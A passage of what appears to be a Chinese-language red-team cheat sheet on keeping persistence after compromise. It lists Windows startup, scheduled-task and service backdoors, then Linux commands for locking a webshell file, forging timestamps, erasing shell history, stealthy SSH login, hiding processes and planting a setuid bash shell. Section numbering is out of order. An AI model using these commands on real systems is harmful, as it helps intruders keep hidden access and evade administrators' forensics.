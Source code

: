 运行 gpedit.msc 进入本地组策略，开机自动运行恶意脚本。隐蔽性很高，但是需要知道脚本的绝对路径。

（七）计划任务

使用 windows 的任务计划程序设置每隔一分钟运行一次恶意脚本。

（八）服务自启动

在 windows 服务设置里面设置开机自动启动一个服务，结合 shell 实现无文件后门。

---

#### linux 权限维持方法

（一）隐藏文件

用 chattr 命令防止 ls -l 查看。

    chattr +i evil.php   锁定文件

（二）篡改时间戳

用 touch 命令就可以改。

    touch -t 1401021042.30 webshell.php

（三）删除历史记录

禁用 history，带有空格的不记录。

    [space]set +o history

或者在 history 里面删除恶意语句。

    history | grep "keyword"

    history -d [num]

（四）ssh 隐身登录

登录信息无法被 w/who/last 等指令检测到。

    ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i

（六）端口复用

借用其他应用程序的端口，达到隐藏端口的目的。

（五）隐藏进程

让 root 无法通过相关指令查询到攻击者使用的进程，例如用 top 看到 cpu 占用率高却看不到相关进程。

红队可以用 libprocesshider 工具实现隐藏进程，蓝队可以用 unhide 寻找隐藏进程进行网络取证。

（六）进程注入

linux 下可以用 linux-inject。

（七）创建用户

普通用户利用 suid shell 可以用 guest 用户登录暂时获取 root 权限。

    cp /bin/bash /tmp/shell

    chmod u+s /tmp/shell

